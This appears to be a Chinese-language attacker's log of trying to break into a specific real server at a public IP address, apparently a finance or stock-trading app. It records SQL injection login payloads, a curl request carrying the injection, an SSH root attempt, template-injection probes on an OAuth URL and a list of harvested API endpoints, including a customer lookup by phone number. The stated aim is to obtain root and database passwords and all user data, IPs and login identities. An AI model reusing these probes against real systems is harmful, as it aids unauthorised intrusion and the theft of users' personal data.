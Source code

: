 ```
            "addTime": "2023-06-04 21:41:18",
            "banTitle": null,
            "banDesc": null,
            "targetUrl": null
        }
    ]
}
```



尝试1： 失败
1' union select database(),2#
失败： 没有这个用户，页面做了11位字符限制

尝试2： 失败
ssh  root@117.149.243.239
失败： 端口22没开

尝试3： 
curl --request POST \
  --url http://117.149.243.239:9099/apiApp/app/login \
  --header 'Content-Type: application/json' \
  --header 'content-type: application/json' \
  --data '{"loginName":"1'\'' union select database(),2#","loginPwd":"123"}'

失败：
{"msg":"JSON parse error: Unexpected character ('5' (code 53)): was expecting double-quote to start field name; nested exception is com.fasterxml.jackson.core.JsonParseException: Unexpected character ('5' (code 53)): was expecting double-quote to start field name\n at [Source: (PushbackInputStream); line: 1, column: 47]","code":500}


确定后台使用 Java + Spring 开发

尝试4：
http://117.149.243.239:9099/oauth/authorize?response_type=${2*2}&client_id=acme&scope=openid&redirect_uri=http://test

失败： 404 not found --nginx

尝试5：
http://117.149.243.239:9099/apiApp/oauth/authorize?response_type=${2*2}&client_id=acme&scope=openid&redirect_uri=http://test

失败： 400 --bad request

发现对应的nginx配置地址是: /apiApp

目的： 找出服务器用户root密码,数据库用户密码root, 对应的系统中用户所有信息user
然后抓出对应的ip地址，登录人

美洽，企业id
服务器117.149.243.239

收集对应的请求
```
/apiApp/app/banner/list
/apiApp/app/news/page?pageNum=1&type=-1
/apiApp/app/message/getNum 
/apiApp/app/article/list
/apiApp/app/product/info
/apiApp/app/position/getStockInfo?stockCode=sh000001,sz399001,sz399006 
/apiApp/app/login
/apiApp/app/customer/getCustomerByName?loginName=15711320691
/api/v1/index/loginTime
/api/v1/index/userinfo
/api/v1/index/isOpen?login_name=15711320691
/apiApp/app/withdraw/getList?current=1&size=10&total=0
/apiApp/app/dict/type/agent_withdraw_status
```